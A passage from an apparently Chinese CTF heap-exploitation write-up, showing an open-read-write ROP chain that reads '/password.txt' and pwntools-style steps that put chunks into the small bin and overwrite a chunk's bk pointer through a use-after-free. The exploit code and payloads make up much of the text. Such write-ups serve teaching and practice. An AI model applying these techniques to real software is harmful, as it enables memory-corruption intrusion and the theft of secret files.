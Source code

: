 ```python
    orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr) + p64(pop_rdx) + p64(0x30) + p64(read_addr)
    orw += p64(pop_rdi) + p64(flag_addr) + p64(puts_addr)
    orw += '/password.txt\x00'
```

### 重要的unlink

从0x410的unsorted bin里切割一个0x310的空间，剩下的0x100的unsorted bin

```python
add(0,3,'a')
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-85edfd8db1669e4923f239946d79ec9c22b58b22.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-094447879d0d005e85e63eac62ed8139068c5ad6.png)

malloc一大的堆，使得unsorted bin里的0x100的chunk放入small bin

```python
add(0,4,'b')
```

可以看到堆块进入了smallbin

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8f3d69b664fafe061a4491a62f659b71095e7add.png)

挡住top chunk，不能小于0x100，不然会从得到的small bin里取

```python
add(1,4,'a')
```

我们使用同样的方法，来得到第二个0x100的unsorted bin

```python
delete(0)
add(1,3,'a')
add(1,4,'b')
```

现在small bin中有了两个堆块

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f27d0685a615c8bdf4ac3c67381fcd1201fefb45.png)

利用uaf修改第一个small bin的bk指针指向我们想要控制的地方

```python
pl = 'a'*0x300
pl += p64(0) + p64(0x101)#保持好small bin的chunk头
pl += p64(heap_addr + 0x1F70)#fd保持链子的完整
pl += p64(heap_addr - 0x1010 + 0x800 - 0x10)#我们要控制的地方
edit(0,pl)
```

成功控制
